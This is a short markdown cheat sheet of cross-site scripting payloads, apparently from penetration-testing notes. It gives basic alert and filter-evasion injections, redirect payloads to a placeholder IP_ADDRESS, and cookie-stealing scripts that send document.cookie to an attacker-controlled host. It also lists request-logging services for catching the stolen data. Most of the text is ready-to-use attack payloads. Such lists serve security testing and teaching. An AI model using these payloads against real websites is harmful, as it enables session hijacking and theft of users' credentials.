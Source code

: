# XSS

## Basic

```html
<script>alert("XXS");</script>
<script>alert(document.domain);</script>
<script>alert(document.origin);</script>

<IMG SRC="javascript:alert('XSS');">
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<BODY BACKGROUND="javascript:alert('XSS')">
<IMG DYNSRC="javascript:alert('XSS')">
<IMG LOWSRC="javascript:alert('XSS')">
```

## Test remote connection

```html
<script>
document.location='https://IP_ADDRESS/test.php'
</script>
```

Image:

```html
<img src='http://IP_ADDRESS/test></img>
```

## Grab cookie

```html
<script>
document.location='http://IP_ADDRESS/test.php?id=' + document.cookie
</script>
```

Image:

```html
<script>document.write("<img src='http://IP_ADDRESS/test?=".concat(document.cookie,"'", "></img>"))</script>
```

## Remote host

HTTP:

- <http://requestbin.net>
- <https://pipedream.com>

DNS:

- <http://dnslog.cn>
- <https://requestbin.net/dns>

## Sources

- <https://owasp.org/www-community/xss-filter-evasion-cheatsheet>
